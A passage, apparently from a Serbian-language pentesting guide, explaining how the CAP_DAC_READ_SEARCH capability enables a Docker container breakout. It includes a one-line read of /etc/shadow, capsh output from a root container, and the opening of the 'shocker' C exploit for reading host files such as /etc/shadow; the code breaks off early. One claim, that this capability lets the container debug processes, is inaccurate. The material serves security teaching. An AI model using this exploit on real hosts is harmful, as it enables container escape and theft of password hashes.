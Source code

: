 ```python
print(open("/etc/shadow", "r").read())
```

**Primer u okruženju (Docker probijanje)**

Možete proveriti omogućene sposobnosti unutar Docker kontejnera koristeći:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Unutar prethodnog izlaza možete videti da je omogućena sposobnost **DAC\_READ\_SEARCH**. Kao rezultat toga, kontejner može **debagovati procese**.

Možete saznati kako funkcioniše sledeće iskorišćavanje na [https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3), ali ukratko, **CAP\_DAC\_READ\_SEARCH** nam ne samo omogućava da prolazimo kroz fajl sistem bez provere dozvola, već takođe eksplicitno uklanja bilo kakve provere za _**open\_by\_handle\_at(2)**_ i **može dozvoliti našem procesu da pristupi osetljivim fajlovima otvorenim od strane drugih procesa**.

Originalni exploit koji zloupotrebljava ove dozvole kako bi čitao fajlove sa hosta može se pronaći ovde: [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c), sledeća je **izmenjena verzija koja vam omogućava da naznačite fajl koji želite da pročitate kao prvi argument i da ga ispišete u fajl.**

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
unsigned int handle_bytes;
int handle_type;
unsigned char f_handle[8];
};

void die(const char *msg)
{
perror(msg);
exit(errno);
}

```